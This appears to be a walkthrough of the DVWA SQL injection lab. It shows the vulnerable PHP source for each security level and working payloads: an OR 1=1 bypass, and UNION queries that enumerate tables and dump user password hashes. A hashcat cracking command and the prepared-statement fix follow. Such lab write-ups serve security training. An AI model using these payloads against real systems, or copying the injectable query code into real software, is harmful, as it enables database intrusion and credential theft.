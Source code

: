 # SQL Injection

## About
```
A SQL injection attack consists of insertion or "injection" of a SQL query via the input data from the client to the application.
A successful SQL injection exploit can read sensitive data from the database, modify database data (insert/update/delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system (load_file) and in some cases issue commands to the operating system.
SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to effect the execution of predefined SQL commands.
This attack may also be called "SQLi".
```
Source: DVWA Documentation

## Low Security

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql1.png?raw=true">
</p>

Inserting `1'` will return an error, that's means that SQL Injection could be possible.

Visiting the source code we can find:
```php
// Check database
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

// Get results
while( $row = mysqli_fetch_assoc( $result ) ) {
    // Get values
    $first = $row["first_name"];
    $last  = $row["last_name"];

    // Feedback for end user
    echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
}

mysqli_close($GLOBALS["___mysqli_ston"]); 
```

We can see that the `'$id'` is not validated or sanitized in any way, so we can inject the following: `1' OR 1=1;#`

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql2.png?raw=true">
</p>

With this payload we bypass the query using the quote symbol and add the logic operator `OR`, which will make the query to return between the id given or a true statement such as 1=1.
The pound sign `#` is used to comment the rest of the query.

So, the query executed will look like this:
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' OR 1=1;#';"
```

To further exploit this vulnerability we can use the UNION method to extract more information:
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' UNION SELECT @@version, null#';"
```

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql8.png?raw=true">
</p>

Now we got the version of the database.
First, we need to enumerate the columns using `UNION SELECT null,null`, and we add null values until we will get a valid response. This is usually done to enumerate the number of columns returned, but in this case we already know that `first_name` and `last_name` are returned.
Keep in mind that `@@version` syntax will only work for MySQL dbs.

Using `database()` function we can find the name of the database.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql9.png?raw=true">
</p>

Now we can enumerate the tables, the columns and extract the values.
For the next queries I changed the format a little bit.	

```sql
1' UNION SELECT null,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'dvwa'#
```	

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql10.png?raw=true">
</p>

```sql
1' UNION SELECT null,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'#
```

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql11.png?raw=true">
</p>

```sql
1' UNION SELECT user, password FROM users#
```

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql12.png?raw=true">
</p>

We can use `hash-identifier` in order to find the hash format, and then we will brute-force it using `hashcat`.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql13.png?raw=true">
</p>

```
hashcat -m 0 password /usr/share/wordlists/rockyou.txt
```

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql14.png?raw=true">
</p>

## Medium Security

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql3.png?raw=true">
</p>

For the Medium security level we can not change the value of the parameter directly from the UI, but we can edit it with the Inspect Element option.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql15.png?raw=true">
</p>

Another method is to use a Proxy tool like Burp Suite to modify the HTTP request.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql4.png?raw=true">
</p>

We will add the payload without the quote because now the $id does not need anymore. Then we URL encode the payload and send it.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql5.png?raw=true">
</p>

The same enumeration using UNION method is still working.

Source code:
```php
// Get input
$id = $_POST[ 'id' ];

$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

switch ($_DVWA['SQLI_DB']) {
    case MYSQL:
        $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
        $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

        // Get results
        while( $row = mysqli_fetch_assoc( $result ) ) {
            // Display values
            $first = $row["first_name"];
            $last  = $row["last_name"];

            // Feedback for end user
            echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
        }
        break;
```

What is different here is the presence of `mysqli_real_escape_string()` which is escaping the following characters:
```
NUL (ASCII 0), \n, \r, \, ', ", and CTRL+Z
```
The problem is that the quote is not needed anymore and the other symbols are not affecting us.

## High Security

For the High level of security the source code looks like this:
```sql
if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            // Check database
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
            $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

            // Get results
            while( $row = mysqli_fetch_assoc( $result ) ) {
                // Get values
                $first = $row["first_name"];
                $last  = $row["last_name"];

                // Feedback for end user
                echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
            }

            ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
            break; 
```
For this exercise a new window for the input will open, so the input is transferred using another page.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql6.png?raw=true">
</p>

As we can see the `$id` is still sent unsecured.
In this query we have a `LIMIT 1` which will make the query to return only one record from the database, but this can still be commented using injection with `#` symbol.
In this case, the same payloads will work for High security level.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql7.png?raw=true">
</p>

## Impossible Security

Source Code:
```php
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $id = $_GET[ 'id' ];

    // Was a number entered?
    if(is_numeric( $id )) {
        $id = intval ($id);
        // Check the database
        $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
        $data->bindParam( ':id', $id, PDO::PARAM_INT );
        $data->execute();
        $row = $data->fetch();
		
        // Make sure only 1 result is returned
        if( $data->rowCount() == 1 ) {
            // Get values
            $first = $row[ 'first_name' ];
            $last  = $row[ 'last_name' ];
		
            // Feedback for end user
            echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
        }
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```

For this case, an Anti-CSRF token was implemented, and the application verifies if the `$id` has a numerical value.
